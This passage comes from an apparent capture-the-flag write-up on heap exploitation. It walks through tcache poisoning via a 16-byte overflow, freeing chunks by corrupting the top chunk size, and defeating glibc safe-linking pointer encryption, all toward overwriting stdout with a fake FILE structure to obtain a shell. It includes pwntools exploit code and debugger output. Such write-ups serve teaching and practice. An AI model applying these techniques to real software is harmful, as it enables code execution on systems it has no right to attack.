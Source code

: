 Now that we have the leaks, to turn it into a shell, we can use the method mentioned [here](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#3---the-fsop-way-targetting-stdout) of overwriting the `stdout` with a fake file structure we create.

But to be able to overwrite the `stdout`, we first need to make `malloc` return a pointer to it. One way we can achieve this is using `tcache poisoning`. Essentially, we will use our `16-byte` overflow to overwrite the forward pointer with the address we want to write to in one of the `tcaches`. After that, allocating new memory with the size of that `tcache` will cause our next allocated `tcache` with the same size to be at the address we want to write.

For this, first, we need to free two chunks so they are placed in the `tcache bin`, which we can achieve using the same method of overwriting the top chunk size, as follows:

```py
...
add(3, 0xd98, b"A"*0xd98 + p64(0x251))
add(4, 0xda8, b"A"*0xda8 + p64(0x251))
add(5, 0x1000, b"A")
r.interactive()
```

As we can see, this works, and now we have two `tcache bins` with size `0x230`. Additionally, the last freed `tcache` is right after the memory we allocated with the 4th index, with `0x231` being the size (the last bit indicates the previous chunk is in use), and the forward pointer being `0x00005644a3616a32`.

```console
gef➤  heap bins tcache
────────────────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────────────────
Tcachebins[idx=33, size=0x230, count=2] ←  Chunk(addr=0x5641c77f2dc0, size=0x230, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  
←  Chunk(addr=0x5641c77d1dc0, size=0x230, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
gef➤  x/gx (void *)&chunks+0x20
0x5641c6d3c080 <chunks+32>:     0x00005641c77f2010
gef➤  x/4gx 0x00005641c77f2010+0xda0
0x5641c77f2db0: 0x4141414141414141      0x0000000000000231
0x5641c77f2dc0: 0x00005644a3616a32      0xb581f82da5a0e2a9
```

At this point, you might notice that the forward pointer (`0x5644a3616a32`) does not match the address of the next `tcache` (`0x5641c77d1dc0`).

This is due to the fact that in newer versions of **libc**, the forward pointer is encrypted with the address of the last freed chunk, in this case `0x5641c77f2dc0`. We can perform the same encryption as follows and confirm that this is indeed the case:

```console
>>> last_addr = 0x5641c77f2dc0
>>> next_addr = 0x5641c77d1dc0
>>> hex(next_addr ^ last_addr >> 12)
'0x5644a3616a32'
```

Due to this, while overwriting the forward pointer with the address of the `stdout`, we also need to encrypt it in the same way. To achieve this, we can calculate the address of the last freed chunk using the **heap** base address we leaked.

